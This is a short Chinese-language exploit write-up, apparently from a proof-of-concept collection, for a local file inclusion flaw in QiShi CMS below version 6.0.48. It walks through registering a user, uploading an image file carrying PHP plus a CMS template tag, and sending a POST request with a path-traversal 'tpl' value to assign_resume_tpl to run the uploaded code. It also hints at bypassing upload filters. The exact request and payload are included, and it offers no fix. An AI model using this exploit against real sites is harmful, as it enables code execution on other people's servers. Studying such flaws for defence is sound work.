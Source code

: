 ## 影响范围

```http
骑士CMS < 6.0.48
```

## 漏洞利用

首先在前台注册一个普通用户，然后更新简历：
![](qishi1.png)
完成简历更新后，上传照片：
![](qishi2.png)
在上传图片马后，会生成图片地址：
![](qishi3.png)
复制路径，通过 a 方法调用assign_resume_tpl函数，再通过 POST 的方式提交该路径，即可包含成功

```
http://192.168.159.208/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=../../../../var/www/html/data/upload/resume_img/2011/13/5fae95e469e05.jpg
```
如下图所示：
![](qishi4.png)

值得一提的是，通过上面的分析我们可以知道，在解析模板的时候，不是解析原生的 PHP 代码，因此如果图片马是纯 PHP 代码是无法利用成功的，必须要包括骑士 CMS 模板文件的标签，我们可以随便打开一个原有模板，然后复制一句话即可，如：/Application/Home/View/tpl_company/default/com_jobs_list.html

```
<qscms:company_show 列表名="info" 企业id="$_GET['id']"/>
```
![](qishi5.png)

因此最终的图片马所要包含的内容应该是：

```
<?php phpinfo(); ?>
<qscms:company_show 列表名="info" 企业id="$_GET['id']"/>
```
另外一点，骑士 CMS 对于图片上传是有过滤的，所以需要绕过技巧，具体可以自行研究，当然你也可以考虑上传 docx 或者其他类型的文件，对于包含的结果是没有影响的

## 参考链接

[@panda](https://xz.aliyun.com/t/8520)